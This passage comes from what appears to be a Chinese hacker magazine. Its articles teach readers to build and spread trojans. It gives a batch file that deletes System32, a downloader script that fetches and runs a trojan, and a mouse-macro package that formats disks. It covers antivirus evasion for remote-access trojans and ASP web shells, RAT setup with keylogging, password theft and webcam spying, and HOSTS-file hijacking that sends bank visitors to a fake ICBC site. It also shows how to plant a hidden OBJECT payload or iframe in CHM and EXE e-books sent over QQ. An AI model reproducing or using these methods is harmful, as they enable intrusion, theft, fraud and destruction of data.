程序池类型代号：BasicScript / JavaScript / Batfile

命令十：[pnone.程序池名]                卸载程序池
用法示例：iamabird pnone myprog

命令十一：[prun.程序池名]               运行程序池
用法示例：iamabird prun myprog

命令十二：[padd.代码@程序池]            向程序池写代码
用法示例：iamabird padd msgbox "这是一个程序"@myprog

命令十三：[pget.程序池名@文件地址]      导入到程序池
用法示例：iamabird pget myprog@c:\mydocu\regedit.txt
```

## 骇马记

```text
命令格式 play：文件地址\
隐藏方式\
主要用途：对方的鼠标根据你的录制文件进行操作\
用法举例：iamabird play open 3389.iab
```

### 三、用法举例

现在大家都学会命令该如何使用了吧。接下来，我就给大家举几个由浅入深的例子，告诉大家如何使用它。

- 1. **破坏型木马**

打开记事本输入如下代码：

```text
Echo off
Copy iamabird.com C:\iamabird.com
...
iamabird addline del C:\Windows\system32\*.* /q /f@C:\Virus.bat
```

将其保存为 `.bat` 格式，并且与 `iamabird.com` 程序放在一起发布，只要运行这个批处理，计算机在下次启动时，System32 文件夹就会被破坏。

- 2. **错误提示音恶作剧**

代码如下：

```text
Echo off
Iamabird pmake ...
Iamabird padd ...
...
Iamabird p_run ...
```

这是一个很有意思的恶作剧程序，不断播放提示音，电脑性能不好的就会假死。

- 3. **下载某木马，并运行**

代码如下：

```text
Echo off
Iamabird pmake ...
Iamabird padd onerror ...
Iamabird padd Local=...
Iamabird padd Remote=...
...
Iamabird padd sGet.SaveToFile Local,2@down
Iamabird p_run down
```

这个例子告诉我们可以通过编写脚本来扩展这个程序本身无法达到的功能。

- 4. **格式化对方硬盘**

格式化对方的硬盘其实并不难……我们用这个工具格式化对方的硬盘。先录制一遍操作：打开“我的电脑”，右击盘符，单击“格式化”，再确认（图3、图4）。


把录制内容写到 `format.iab`，再做一个批处理 `Setup.bat`，内容如下：

```text
Echo off
iamabird shell explorer.exe file:///...
iamabird play format.iab
```

然后把 `iamabird.com` 以及 `format.iab` 放在一起打包成自解压格式，并自动运行 `Setup.bat`。

防范方法：如果被入侵，鼠标不受控制，最好迅速重启计算机；不要随便打开网上下载或他人发来的文件。

这个程序功能和用途可以继续扩展，可用于入侵、教学等场景。

> （本文所涉及到的 iamabird 多功能入侵型鼠标移植工具已收录到光盘中）


## 免杀上兴流程控制

### 牧马记


在上期的黑客文档案上介绍了上兴远程控制的最新版，本次介绍其免杀相关流程与处理思路，包括绕过卡巴、修改特征码、上线测试与多杀软检测等内容。


通过对特征码定位与替换后保存文件，再使用 AVAST 等进行检测与复测；将处理后的服务端上传至 VirusTotal 进行多引擎扫描，并继续针对 NOD32 等进行加壳和入口点调整。


文中继续说明 AVAST 特征码定位方法、修改字母大小写绕过示例，以及进一步定位后提取特征并替换处理的过程，最终达到可上线且功能正常的效果。


### 菜鸟组马 Assasin

黑侠（Black Mask）


前几天在网上发现了一款汉化过的国外木马 Assasin 2.3，下载使用后发现它的功能异常强大。好东西就要分享嘛，下面我就来简单介绍一下这个不错的木马 Assasin 2.3。

#### 一、创建服务端

首先运行 Assasin 的客户端程序 client.exe，点击“文件”里的“新建服务端”来创建一个木马服务端。第一个选项“服务端历史”是记录每次生成服务端的保存路径等一些信息。第二个选项“服务端类型”，木马保存目录有 Windows 目录、System 目录、Program Files 三个选项。下面的“创建目录”和“EXE 文件名称”栏分别填入目录名称和文件名称，使用默认的也可以。“服务端类型”选择“标准”，端口默认为 85，也可根据需要进行选择，如图1。


切换到第三个选项“连接设置”，共有两种上线方式：URL 和 DNS/固定 IP。对这两种上线方式，相信经常玩木马的菜鸟们都非常熟悉了。我使用的是 DNS 动态域名来上线（花生壳域名），如图2。


第四个选项“服务端设置”中，“伪装命名”是对肉鸡进行分组和命名。而“合并服务端”可以选择一个图标和其它文件合并捆绑。而在第五个选项“启动方式”中，我选择了 “windows Registry Startup run Services 项”，在后边输入名称 xtalf1，也可以选择多项运行方式，如图3。


第六个选项是“更多选项”，设置服务器 ID 为 1，连接密码为 80，Ping 延时设置为 10，选中“远程肉鸡运行服务端后删除自身”，可以将下面的 DLL 合并器里的全部选中。第七项“信息盒子”不要选。第八项“禁止执行程序”中可以添加要禁止运行的程序。所有的项目都配置完成后，点击“保存服务端”，服务端就生成好了。

#### 二、远程控制服务端

当中了木马的肉鸡上线后，在控制端的右下角会出现提示，如图4。我们来看看这个木马都有什么好玩的功能。首先点击一下左边框里的“插件管理器”，看看我们需要的 DLL 插件是否在肉鸡上安装成功，如图5。接着可以点击“远程计算机信息”，查看一下远程计算机的一些信息，以及可以获取到远程计算机的通讯器密码、邮件客户端密码、受保护的缓存密码。


点击“Internet Explorer”，可以看到远程计算机的 IE 最近浏览过的网站，IE 的安全级别属性，并且可以指定打开任一网站，如图6。“键盘记录器”可以记录当前键盘所输入的字母和数字，不过很可惜的是不能记录中文，如图7。


“服务端设置”功能可以获取被控电脑设置的一些信息，比如 DNS、连接密码等。并且还能在线修改设置，点击右边“更新服务端”即可，这可是大多数国内木马所没有的功能。另外还能将服务端、安装目录隐藏，在右边还包括了关机、重启等功能，如图8。


“文件管理器”功能中包括上传文件、删除文件、修改文件等，这是每个木马都具有的基本功能，如图9。在“窗口管理器”功能中，点击“刷新窗口列表”就能够看到当前肉鸡正在运行着的程序窗口，选中标题栏中的某个窗口名，点击“关闭”，就能将对方正在运行着的窗口关闭。再选中一个窗口名，点击“终止窗口”就能将当前窗口锁定，让对方开也开不了，关也关不了，如图10。

“注册表管理器”能够添加、删除、修改注册表信息。“恶作剧管理”和“更多恶作剧功能”自然就是一些整人的功能了，比如打开光驱、关闭光驱、隐藏图标等，如图11。

“更多外部服务器”也是这个木马中比较不错的功能了，这个功能可以让我们建立 FTP 服务器、WEB 服务器。点击“FTP设置”，输入用户名 xtaf1f，密码 123456，端口 21，点击“在客户建立FTP服务”，就在内网已建立了一个 FTP 服务器，如图13。点击“WEB服务器设置”，在 WEB 服务器目录里输入 `d:\123`，文件索引名称 `index.html`，端口 81，点击“在客户端启动WEB服务”，WEB 服务也建好了，如图14。


“进程管理器”功能可以获取当前进程，也可以结束任意进程，并且可以添加禁止运行程序，有点类似网吧中的限制。“Socket代理控制”功能不仅可以开启代理服务，还能够进行端口重定向、隧道重定向，这些功能可是别的木马极少有的，如图12。

> 这个木马的一些主要功能就介绍完了，至于其它一些功能，也都是非常简单的，就留给大家自己去使用了。（本文所涉及到的 Assasin 2.3 已收录到光盘中）

## 门道不死的 ASP 木马

想不到，前几天我才发现，我千辛万苦收集的 ASP 木马，居然没有几个不被 Kill 的。常说养马千日，用马一时，可要是连马都养不好，用的时候可就头疼了。众多的杀毒软件中，查杀效果比较厉害的就是瑞星跟 NOD32（测试软件：瑞星2006，卡巴斯基反病毒6.0，KV2006，NOD32 AntiVirus v2.51.30 和 McAfee VirusScan v8.0i）。来看一下几种比较常见的 ASP 木马免杀方法：

- 1. **加密法**：常用的是微软的源码加密工具 screnc.exe。优点是一般的有害代码用此工具加密后，可以在服务器上发挥原有的功能；缺点是代码经过加密后为不可识别字符，自己也不认识了。
- 2. **大小写转换法**：把枚举程序里的代码大小写稍作转换。一般杀毒软件（WORD 可转换大小写）会忽视对 ASP 木马免杀混合用法的查杀。
- 3. **混水摸鱼法**：这种方法也经常奏效，如把 fso 写成 `"f"&vbs&"s"&vbs&"o"`，运行时结果是一样的，但文件却可躲过杀毒软件的查杀。
- 4. **图片法或组合法**：把 ASP 木马的代码保存为“*.jpg”，利用 `<!-- #include file="*.jpg" -->`。或把 ASP 木马的很多个代码分散到 1.asp、2.asp、3.asp……中，再通过 `#include` 合并起来，可避过杀软的查杀。
- 5. **移位、逆位、添零法**：这种方法也有一定效果，我们可以参考上期黑客 X 档案中关于“网上 MS060014 免疫剽窃制作方法”。
- 6. **ASP 结构特征法**：在程序开头跟结尾加上图片数据库之类的特征码，改变本身结构。无论是删除一些特征，还是颠倒顺序，只要能正常使用即可。

以前使用 **screen.exe** 加密的 ASP 木马现在基本都被查杀了，现在比较流行的方法是移位、逆位、添零等，不过在本机测试时加密后有时会出现问题（RP 问题）。有能力的朋友可以定位杀毒软件特征码并自行修改，有时候把某些文字改位置和语法也能躲过查杀。

其实我感觉破坏 ASP 的结构性是最好的免杀方法。比如在 ASP 开头加入图片特征码躲过查杀，不过这种方法在有的时候是没用的，于是便想起了可以变成数据库结构。这种工具网上也有。

我以原版海阳顶端木马为例，首先把 ASP 木马合并数据后，使用杀毒软件查杀，可以躲过瑞星 2006、卡巴斯基病毒 6.0、KV2006 和 McAfee，唯独不能躲过 NOD32 的查杀。这时想到可以先用 screen.exe 加密后再合并，经过测试，NOD32 也检测不出来了（图1）。

这一系列操作很繁琐，所以写了一个小程序简化操作。把加密的 asp 文件改名为 a.asp，然后运行 msasp.exe 程序即可（图2、图3）。

测试一下，一切正常（图4）。

> （本文所涉及到的 msasp.exe 已收录到光盘中）

## 无所不能下载者

当我们使用木马控制肉鸡后，如果因为变更网络或更换环境导致木马服务端失效，一直是比较头疼的问题。尤其是静态 IP 变为动态 IP 后，原有反弹肉鸡可能都找不到了。为了解决这个问题，可以使用“下载者”来代替直接安装木马服务端。

### 一、自动更新木马服务端

我最常使用的是“顶狐下载者 V3.32 随机加密版”，这是一个超强的自变种下载型木马，功能只有一个：下载并运行指定链接的木马文件。

- 1. **配置下载者**
  - 假设已将配置好的木马服务端上传到网站空间，例如：`http://pumaxtaoyao.google.com/muma.exe`
  - 运行“顶狐下载者”，在“输入下载地址”中填入链接。
  - 点击“添加”将地址加入列表，再点击“生成”，生成名为“顶狐下载者.exe”的程序（见图1）。

> **小提示：** 在顶狐下载者里最多可添加 30000 个下载链接地址。为避免木马上传空间失效，建议准备多个地址做备份。

- 2. **免杀**
  - 由于顶狐下载者采用随机入口与随机加密技术，生成时会频繁改变相关代码。
  - 因此常见杀毒软件较难查杀。

我使用最新病毒库的江民 KV2006、瑞星 2006 检查生成的下载者程序，都提示没有发现病毒（图2）；使用卡巴斯基 V6.0 检测，也同样找不出病毒来（图3）。但是当使用 Ewido 检查时，结果不同。

有躲不过 Ewido 的法眼（Ewido 准确地描述出了下载者为 Downloader 木马，提示“该恶意软件会下载其它有害的程序，如后门程序，然后在用户不知道的情况下安装它们”，如图4），不得不感慨 Ewido 不愧为世界第一的木马查杀软件啊。怎么让 Ewido 识别不出该下载者呢？很简单，加个壳就行：我喜欢使用 N.C.P.H. Packer 木马加壳器，这个工具加的壳非常强，普通的木马加壳后江民、卡巴根本就识别不了。运行 N.C.P.H. Packer，指定“下载者程序路径”，使用默认的选项，点击“加壳”按钮，即可对下载者程序加壳（图5）。

### 三、轻松更新木马

将下载者改个名，通过溢出挂马之类的方法，在别人的电脑上运行，就会自动下载指定网址链接的木马服务端程序了。当更新木马服务端时，只需要上传覆盖掉原来的木马服务端文件，下载者就会自动下载运行完成更新了。

> 小提示：下载者运行时有进程，但是下载执行文件时却是调用 IE 进程通过 HTTP 方式下载的，因此能避开部分针对下载行为的查杀定义。

### 二、巧助 DNS 欺骗

除了可以用于更新木马服务端外，下载者还可以为我们修改肉鸡的 HOSTS 文件，达到 DNS 欺骗攻击的目的。我比较喜欢的另一个小巧的下载者是“英雄版下载者”，它可以指定 5 个下载链接地址，最重要的是可以将修改过的 HOSTS 文件上传到网站上，让肉鸡下载后修改本地 HOSTS 文件。

比如我们制作一个假工行站点，IP 为 202.98.198.168，然后在 HOSTS 文件中添加一句：“202.98.198.168 www.icbc.com.cn”，保存 HOSTS 文件后将其上传到网站空间中（http://pumaxiaoyao.googlepages.com/hosts）。运行英雄版下载者，在“Hosts 地址”中输入上传的 HOSTS 文件的链接地址，点击“生成”按钮，即可生成一个可执行的 EXE 下载者文件（图6）。将该文件以挂马的形式传播出去，中了下载者文件后，HOSTS 文件将被修改。当他们访问工行网银时，就会自动转向到我制作的假的工行站点了，卡号和密码就难免被盗（小编提示：这个方法危害很大，在此仅作技术上的讲解，读者请勿尝试）。

除了英雄版下载者外，还有一个专门用于修改 HOSTS 文件的下载者程序“DNS Spoofing Tools Beta V2.0”，使用也很简单，限于篇幅在此就不细说了（图7）。

（本文所涉及的顶狐下载者 V3.32 随机加密版、N.C.P.H. Packer 木马加壳器、英雄版下载者和 DNS Spoofing Tools Beta V2.0 已收录到光盘中）

### 意大利的木马黑手党

亚平宁半岛又称意大利半岛，说到意大利我们便会想到那里的美女和足球，但是今天它却和木马联系到了一起。国外的木马程序以前已经介绍了很多了，比如 CIA、狙击手、ProRat 等，今天我来为大家介绍一款来自亚平宁半岛的木马程序——SpyOne。

#### 一、配置服务端

首先还是配置一个服务端程序，点击客户端程序左侧控制栏中的“新服务端”命令，接着在弹出的“新服务端”窗口进行配置。在“DNS 地址”和“监听端口”中设置连接地址和上线端口，接着设置服务端设置的位置和上线方式。SpyOne 除了可以将服务端程序插入到传统的 IE 浏览器和资源管理器的进程中，还可以插入到记事本的进程中。另外，服务端程序的启动方式除了采用传统的注册表启动以外，还采用 ActiveX 插件的方式进行启动（图1）。设置完成后，点击“创建服务端”按钮即可创建新的服务端程序。用户如果选择了“压缩服务端”选项的话，程序将自动调用 FSG 对其进行压缩。

#### 二、控制命令演示

服务端程序配置完成以后，我将它上传到虚拟机中运行。下面我们就来看看 SpyOne 有哪些远程控制能力。点击主界面左侧的“监听端口”选项，在弹出的窗口中设置本地用于接收服务端信息的端口，然后点击菜单栏中的“主动监听”命令就可以了，很快客户端就提示有服务端上线（图2）。点击“文件管理器”命令，在弹出的“文件管理器”窗口就可以对远程计算机的磁盘文件进行管理。

磁盘列表中选择需要查看的磁盘，程序将自动显示出其中的文件夹和文件。既然是远程文件管理，就包括了必要的文件上传、下载、运行、删除等功能，文件的上传和下载都支持断点续传功能（图3），可惜 SpyOne 的上传和下载只能输入一个文件。在进行文件传输时，可以通过主界面的“网络传输”命令来进行传输进度的查看。

点击“捕获桌面”命令，客户端就会弹出一个“捕获桌面”窗口，从中我们就可以捕捉到远程桌面的当前内容。默认情况下弹出的捕捉窗口比较小，我们可以通过拖动窗口边缘来放大捕捉窗口。点击菜单栏中的“启动”按钮即可开始桌面捕捉，而且是连续不断地捕捉；点击“单帧”命令只能捕捉桌面一次。点击“选项”菜单中的命令可以将捕捉的内容保存为图片以及视频（图4）。

除了屏幕监控以外，木马还提供了“看视频”的功能，这样用户就可以通过摄像头等视频捕捉设备来捕捉远程的视频内容。另外，除了关于视频方面的监控功能以外，SpyOne 还提供了“捕捉音频”的功能。点击该命令，在弹出的“捕捉音频”窗口中设置“音频速率”和“音频方式”选项后，再选择“启动”选项（图5），这样我们就可以听到监控的远程计算机发出的声音，比如播放的 MP3、用户的聊天等等。

这里需要特别说明一下，要关闭该音频捕捉功能，需要先去掉“启动”选项的对勾，然后才能关闭该功能。后面也有类似的功能需要这样才能关闭，以后就不再特别说明了。

SpyOne 的“网络”功能中包括了网络嗅探、查看映射、端口转发三项功能，这也是 SpyOne 中很特别的一些功能。点击“网络嗅探”命令，弹出一个“传输查看器”窗口，选择“开始”选项后，就可以查看到远程计算机正在进行的网络连接情况，包括数据信息的协议、目的 IP 地址、源 IP 地址，以及字节数等（图6）。

首先从传输列表中选择一条需要查看的连接，接着点击右键菜单，用户可以点击“嗅探所有”或“选择性嗅探”命令，然后在弹出的“嗅探”窗口中选择“开启”选项后，服务端程序的嗅探功能就开始捕捉数据包。接着我们可以在窗口的“ASCII 数据”和“嗅探器”区域看到捕捉到的数据，并且通过对这些数据进行有效的分析并从中找到自己需要的内容（图7）。通过“查看映射”命令可以查看到远程计算机中的共享资源并显示到窗口的“网络硬盘”区域，用户可以从“网络硬盘”区域选择相应的共享磁盘，并将它映射到本地系统中所指定的区域，这样以后就可以更加方便地管理共享磁盘中的文件。

“端口转发”命令实际上就是一个端口映射的命令，通过它可以将本地系统的端口映射到远程系统中，这样可以让内网中的数据包通过远程系统中的端口和外网的计算机进行交换，从而实现一些局域网系统无法或很难实现的网络服务，比如 WWW、FTP 等。“SHELL”功能就是一个类似于 Telnet 的远程终端功能，实际上就是一个远程的命令提示符命令，我们可以在此执行很多终端命令以及 CMD 操作（图8）。可能有的用户觉得既然很多命令都可以通过图形化来进行操作，何必要这样的功能呢？其实纵观现如今所有的木马程序，这都是必不可少的一项功能，因为很多程序都需要在 CMD 下才能被执行操作，比如架设 SOCKS5 代理的 SkSockServer。

除了上面介绍的这些功能以外，SpyOne 还包含了一个让人糊里糊涂的功能——密码。打开它以后发现并不是常见的键盘记录功能，感觉有点像缓存密码查看器，感兴趣的朋友可以试试。

#### 三、小结

到此为止，关于木马 SpyOne 的基本内容就为大家介绍到这儿。总的来说这款来自意大利的木马程序还是非常优秀的，不但操作简单、连接快速，而且在测试时几乎没有出现任何问题。如果你是木马爱好者的话，这款木马程序一定不要错过。

## 菜鸟学习木马的好帮手

——凝瑞远程控制

黑X上已经介绍了很多木马，今天再给大家带来一个木马——凝瑞远程控制。由于这个“木马”的服务端可自由地被被控主机关闭，因此严格来说不能算是木马，实际上只是个远程控制软件。

由于木马具有“中毒后不易清除”等特点，因此刚入门的菜鸟们一般不敢在自己的电脑上测试木马。凝瑞远程控制最适合刚接触“木马”的朋友，程序中带有“本地测试用被控程序”，可用于测试了解木马功能和基本用法。

使用木马之前可先运行“本地测试用被控端.exe”，启动后会提示服务已启动，然后再运行控制端。连接后可在“系统命令”下查看上线主机信息，如操作系统版本、IP 地址、CPU、内存等。

远程文件管理可显示上线主机当前打开窗口，并可隐藏/显示、最大化/最小化。还可以打开 DOS 窗口，通过发送命令快速远程执行程序，例如发送 `notepad.exe` 可在被控主机打开记事本。

点击窗口下方“远程文件管理”按钮即可打开上线主机所有磁盘（如图2）。若看不到磁盘可右键刷新。可进行上传、下载等文件操作。

点击“其它远程控制命令”按钮（如图3），可在“消息标题”等位置输入内容并执行相应控制操作。在“消息标题”中输入标题，在“消息内容”中输入文字，在消息图标中选一个图标，点发送按钮，就可给被控主机发送消息，发送后在被控主机上显示一个对话框。下面其它的如关闭远程显示器、隐藏远程机桌面等命令，点击相应的按钮后都可执行。

点击“远程屏幕监控”按钮，选择“开始连续截屏”可截取被控主机的屏幕，截屏模式默认为 256 色，如连接的网速比较快，可点击“截屏模式”将图像质量修改为真彩模式，这样截屏效果和颜色很真实，几乎可以和自己的桌面一样。点“开始操作远程机”我们就可完全控制被控主机，包括鼠标和键盘，被控主机的鼠标开始跟着我们的鼠标走动；如图4。

我们在学会“凝瑞远程控制”的使用方法后，直接关闭“凝瑞远程服务程序”窗口就可与控制端断开连接。然后就可根据我们的实际需要配置服务端了，点击控制端中的“系统命令”→“配置服务端”，填上自己的 IP 地址或动态域名、端口、上线主机名后点下一步设置运行方式，如图5。由于我用的是未注册版，因此只能选择“被控程序显示运行窗口且需要手动运行才能接受监控”，如图6。当然注册后可选“远程主机启动后自动运行被控端程序且不显示运行窗口”，也就是标准的木马了。

“凝瑞远程控制”功能简单，最适用于初学木马的菜鸟们学习木马技术，给菜鸟们学习木马技术带来了方便。主要优点是可随时启动或断开与服务端的连接，将服务端关闭后不留任何垃圾。但由于作者对部分功能作了限制，因此如果不注册或不破解是不能做木马用的，这是它的最大缺点。

（本文所涉及到的凝瑞远程控制已收录到光盘中）

## 杀杀毒软件、防火墙——请必杀的 TechKiller

石头

小菜们在种木马时总会有杀毒软件和防火墙从中作梗，既然我们不能突破它就要毁灭它，正好 TechKiller 就能满足这个需要。

打开 TechKiller，界面如图1。这个工具生成的程序可以关掉许多种防火墙和杀毒软件，图中列表就是它可以对付的敌人，多达几百种，还支持国内的杀毒软件。文件名填写 exe 后缀，注册码前缀项随便填写，DLL 名称要有 dll 后缀。勾选“隐藏自身”和“自毁”，点击“生成”保存文件。

生成的程序会被杀毒软件查杀，我们可以给它加个壳来进行免杀处理。我使用的是 PELock v1.06，直接把文件拖进来就行了，点击“Protect file”加壳，如图2。用麦咖啡和金山检查，都顺利地通过了。各位读者可以根据自己的情况，自行制作免杀。

可以把这个程序和木马捆绑在一起使用，也可以单独使用，效果还是不错的。由于这个软件是杀进程的，有些杀毒软件即使结束了进程也不会关闭（魔高一尺，道高一丈）；所以不是对付所有杀毒软件都有好的效果。

（本文所涉及到的 TechKiller 和 PELock v1.06 已收录到光盘中）

### 菜鸟降龙之木马免杀

海风飞扬

在看了黑客X档案第9期的“让杀毒软件变‘白痴’”一文后，总感觉作者对该文的描述不是太完美，忍不住想将自己对于木马免杀的一些见解也写出来与各位读者共享。

木马的免杀主要分两种方式：一种是静态的，就是文件免杀。第二种就是动态的，就是内存免杀和行为免杀（这个是必须要做的）。

我们来说说静态免杀。我认为姜超在文章中的逻辑描述并不是太清晰。真正的文件免杀步骤应该是（无壳文件）：去头加花改入口→修改特征码过杀软→加区建表重载入→加密加壳终极法。

本文我们使用最新更新的卡巴、瑞星、金山、江民（其实只有瑞星和卡巴的杀毒强度才能符合我们的测试要求）为 PCshare 和鸽子的免杀来做测试。只要各位读者照着我的步骤来进行操作，做出的程序就一定可以运行，我是以能够正常上线为测试标准的。

经测试加过区段后，可以使木马通过瑞星、金山、江民（截稿时，江民新升级了病毒库，好像能够查杀这种方法做出的木马了）的查杀，但却被卡巴逮杀了（图4）。我试过用 Fake Ninja 和 maskpe 来加一个文件，不过无论先加哪个，最后都无法运行，要想有最好的免杀木马，还要接着往下看。

#### 一、去头加花改入口

手工加花指令可能对于小菜们来说有一定的难度，不过我们可以使用全自动化的软件 Fake Ninja 2.6，它有着多达 116 种花指令，免杀效果很好。使用时，先点红色的“FATALITY”，选择好要免杀的木马，再点上方黄色的“START GAME”就行了（图1）。

免杀结果：随便选一个花指令加上（我加的是 softdentry 2.11），木马就过了卡巴、江民、金山；不过怎么加都过不了瑞星（图2），可以看出瑞星不吃这一套。

入口点 +1 免杀法，我个人反对作者的做法。这种方法的修改即使过了杀毒软件，也可能导致程序无法运行。网上类似的方法还有把程序第一句的 PUSH 压入改为 POP 弹出，说可以过瑞星。真的吗？我觉得这两种方法修改后的两个木马，四个杀毒软件全部报毒（X编辑：不同木马免杀的情况也不同，入口点加一的方法对一些软件有效果，而且修改起来方便简单，读者应区别对待。不能像本文作者全盘否定，我们要学习的是文中免杀的方法，下同）。

MaskPE2.0 能自动加区段、重新建表，以达到免杀的目的，这种方法类似于加花改入口。使用的时候先点“Load file”选择文件，再点“Make File”生成文件就完成了（Type1 加密的程序在运行时会还原，所以可能无法通过内存检测，如图3）。

#### 二、再续特征码修改法

这个做法才是过杀毒软件的稳健方法，不过姜超在文章中推荐的冰枫有点问题！程序是无法正常运行的，因为自动修改很可能会破坏掉正常程序的结构，造成程序无法运行。类似的软件还有伯乐相马，我曾用其生成过 1000 个鸽子的文件，没一个好使的。因为现在的软件有复合特征码，最好使用 CCL、MYCCL 来手动定位特征码。

#### 三、再续加壳免杀法

这个我很赞同姜超的做法，同时为大家带来了十几个强壳（长期以来在看雪论坛里淘的）。我要介绍给大家的就是 ASProtect.2.3.6.26.Modified。这个壳是 ASP2.3.6 的内核，现在还没有完美的脱壳方法，还被改成了 ACP 的特征码；加了这个壳后，可以过全部的杀毒软件（其实，我提供给大家的壳有很多都可以过全部杀毒软件的）！在“选项”中选择你要保护（加壳）的文件（图5）。在“模式”中点添加模式，勾选“此模式是否激活”（图6）。

最后点保护里的“保护”就完成了。

#### 四、终极免杀法——联合免杀

将以上各种方法结合到一起，得到一个最终的免杀文件。为了我们的木马能更好地免杀，我们做了很多联合测试。最后，效果最好的就是“灰鸽子 2.02”，先加 MaskPE 再加 ASP 的密种壳。你也可以选择其它的壳，隐藏性很好，不易被破解。

#### 五、结语

希望大家自己动手时，最好能用旧的木马，因为杀毒软件只盯最新的木马，实时更新病毒库，而旧木马就不用说了，免杀寿命相当长。最后就是希望大家能提高技术，学会 CCL、MYCCL 特征码定位，这才是过杀毒软件的正途。

> （本文所涉及到的 Fake Ninja 2.6、MaskPE 2.0 和 ASProtect 2.3.6.26 Modified，以及作者收集的强壳，已收录到光盘中）

相信大家都使用过 EXE 文件捆绑、网页挂马和彩信文件插入网页等方式来“培养”自己的木马。不过，我最近发现的是电子书木马。电子书在网上非常流行，但却很少有人怀疑电子书里会带有木马，因此我反复试验总结了一套简洁而有效的电子书木马制作方法，与各位 X 迷共享。

## 一、CHM 电子书木马的制作

制作思路是这样的：我们可以从网上随便下载一个 CHM 电子书，把它反编译后加入我们的木马后门，然后再把它们重新编译成电子书。Microsoft HTML Help Workshop 和 Quick CHM 这两款软件都可以完成反编译和编译的工作，经过比较发现后者更方便、容易使用。

我们就以 Quick CHM 所带的帮助文件 `help.chm` 来演示一下如何在里面加入木马。首先运行 QuickCHM 2.6，依次选择“文件”→“反编译”，就会弹出反编译窗口，在输入处选择要反编译的文件 `help.chm`，在输出处选择你要输出结果的目录，如图1。选好以后点确定，很快就会得到结果并自动打开所在目录，这时可先关闭 QuickCHM 2.6。在输出目录里有很多 htm 文件，另外 3 个文件 `help.hhp`、`help.hhc`、`help.hhk` 分别是工程文件、目录文件和索引文件。

然后打开 `help.chm`，在右侧空白处右键属性，从属性窗口的地址处可知该电子书的默认主页是 `AboutQuickCHM.htm`，如图2。准备好要加入的木马程序，假设名为 `muma.exe`，把它复制到输出目录中。在目录下新建一个记事本，输入如下内容并把它保存为一个 htm 文件，比如 `123.htm`。它的作用是使木马程序 `muma.exe` 运行并且自动转到默认主页 `AboutQuickCHM.htm`。

```html
<HTML>
<HEAD>
<meta http-equiv="refresh" content="3;url=AboutQuickCHM.htm">
</HEAD>
<BODY>
<OBJECT Width=0 Height=0 style="display:none" TYPE="application/x-oleobject" id= CODEBASE="muma.exe">
</OBJECT>
</BODY>
</HTML>
```

### 牧马记

再用记事本打开工程文件 `help.hhp`，里面有 `[OPTIONS]`、`[WINDOWS]`、`[FILES]` 三项内容。我们需要在 `[WINDOWS]` 里面添加刚才新建的文件 `123.htm`，在 `[FILES]` 里添加 `123.htm` 和 `muma.exe`，如图3，然后按原文件名保存。

```
地址: mk:@MSITStore:C:\Documents%20and%20Settings\中国我爱你\桌面\今天\help.chm::/AboutQuickCHM.htm
(URL)
大小: 不可用
```

图2

```ini
[WINDOWS]
Main="help","help.hhc","help.hhk","123.htm",,,,0x20,150,0x104E,[400,1,800,45],0x0,0x0,,,,,

[FILES]
123.htm
muma.exe
```

图3

经过以上三步的操作，已经万事俱备了。我们最后使用 QuickCHM 2.6 把目录里面的所有文件重新编译成为新的 CHM 文件。具体操作是使用 QuickCHM 2.6 打开刚改好的 `help.hhp` 文件（直接双击 `help.hhp` 文件图标即可），直接单击左上方的绿色三角形按钮就可以开始编译，也可以点选“文件”→“编译”命令。编译好后会在该目录下生成一个新的 `help.chm` 文件，它就是已经被我们加入了木马程序的 CHM 电子书了。从表面上看它和原来的帮助文件 `help.chm` 一模一样，打开它就会运行我们加入的木马程序 `muma.exe`，如图4。剩下的就说，使用 QQ 或 MSN 把它发送给别人，QQ 安全中心一般是不会阻拦的哦，当然我们也可以把它发布到网上。（小编：俺们测试时 QQ 与 MSN 都不让传哦！）

图4

## 二、EXE 电子书木马也疯狂

EXE 格式的电子书现在也很流行，它们一般都是由一些网页和图片文件编译而成的。我们只需在它的默认主页里面挂上网页木马就可以了。用到的工具是 E 书制作工具 EBookWorkshop（E书工场）和对应的反编译工具 UnEBookWorkshop。

首先使用 UnEBookWorkshop 将下载的电子书反编译到指定的目录，然后就会发现里面有很多网页和图片。在电子书的空白处右键属性会知道它的默认主页是 `00.htm`，我们只要在 `00.htm` 挂马就可以了。使用记事本打开 `00.htm`，然后在里面加入挂马语句 `<iframe src=http://www.xxx.com/wangma.htm width=0 height=0></iframe>`，按原文件名保存。

再使用 EBookWorkshop 把反编译目录下的文件做成新的电子书，因为用的是别人已经做好的网页和图片，所以制作起来是很简单的。

- 1. 载入文件：点击右边的文件夹，选择反编译目录，将里面的所有文件载入，如图5。
- 2. 设置目录：单击左侧的“目录”标题，进入目录界面，选择“从文件夹创建”即可。
- 3. 设置工具栏和界面：进入工具栏（1）界面，根据原来的电子书来设置，即原来的电子书工具栏上有哪些菜单就把它勾上。进入选项页面，在标题处填上原来的电子书标题，在默认处和主页处都选择 `00.htm`，如图6。进入界面页面，选择一个界面风格。
- 4. 编译：进入编译页面选择好要输出的文件路径和名称，然后单击“编译”按钮就可以了。

图5

图6

编译好后，一个 EXE 电子书就做好了，打开该电子书时也就会打开我们加入的木马了。如果别人没有反编译工具，根本不可能查看网页里的代码，所以隐蔽性要比普通的网页挂马好得多。

## 三、问题和总结

可能会有读者要问，为什么做出来的新的电子书和原来的电子书不太一样。这是因为使用的工具不同造成的，只要精心设计，就会减少差异的。CHM 木马是将木马程序直接加入到 CHM 电子书里去的，因此成功率非常高。

而 EXE 木马是通过网页木马的形式来实现的，它比较依赖于漏洞。但是目前 EXE 电子书在网上很流行，所以 EXE 电子书木马将成为很多菜鸟的首选。UnEBookWorkshop 只能反编译由 EBookWorkshop 这款工具制作的电子书，这不能不说是一种遗憾。但是我们可以使用 EBookWorkshop 来自己制作新的电子书，同时在里面加上网页木马，这是一个不错的选择。

（文中涉及到的工具 EBookWorkshop、Microsoft HTML Help Workshop 1.3 汉化版、Quick CHM 2.6 简体中文绿色版、unEbookWorkshop（EXE 电子书反汇编）V2.2 绿色特别版，已经收录于光盘中）

### 浅谈 Active Desktop 后门

冰河洗剑

现在的杀毒软件和各种安全工具厉害得要命，安装的木马动不动就被杀掉了。如何才能让我们的木马存活得时间更长久呢？利用 Windows 桌面的 Active Desktop 就可以打造出一个不死的后门，这个方法你一定没有听说过吧！

Windows 系统会自动提醒用户，这样会暴露木马网页，得想法将其取消掉。

#### 1. Active Desktop 后门原理

